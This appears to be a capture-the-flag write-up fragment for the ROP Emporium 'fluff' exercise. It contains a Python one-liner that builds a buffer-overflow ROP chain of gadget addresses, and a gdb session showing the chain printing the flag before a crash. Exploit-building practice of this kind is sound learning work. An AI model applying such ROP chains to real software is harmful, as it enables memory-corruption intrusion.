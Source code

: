 ```bash
- └─$ python -c 'print "\x55"*40 + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" +  "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + ```"\xac\xaa\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xfb\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6d\xab\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1f\xc9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1a\xa3\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6e\xa9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xd0\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00"+ "\x10\x05\x40\x00\x00\x00\x00\x00" ' > rop
```


```bash         
gdb -q ./fluff
Reading symbols from ./fluff...
(No debugging symbols found in ./fluff)

gdb-peda$ r < rop
Starting program: /home/kali/Downloads/fluff/fluff < rop
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7ffff7bee1c2 --> 0x4000000000000 
RCX: 0x602010 --> 0x0 
RDX: 0x1c 
RSI: 0x1 
RDI: 0x6022a0 --> 0x0 
RBP: 0x5555555555555555 ('UUUUUUUU')
RSP: 0x7fffffffe118 --> 0x7fffffffe509 ("PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games")
RIP: 0x7fffffffe40a ("RTERM=truecolor")
R8 : 0x0 
R9 : 0x7ffff7dacbe0 --> 0x602470 --> 0x7ffff7dadf60 --> 0x0 
R10: 0x7ffff7dc84ea --> 0x6c0065736f6c6366 ('fclose')
R11: 0x202 
R12: 0x400520 (<_start>:        xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x7fffffffe40a:      push   rdx
   0x7fffffffe40b:      push   rsp
   0x7fffffffe40c:      rex.RB push r10
   0x7fffffffe40e:      rex.WRB cmp rax,0x65757274
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe118 --> 0x7fffffffe509 ("PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games")
```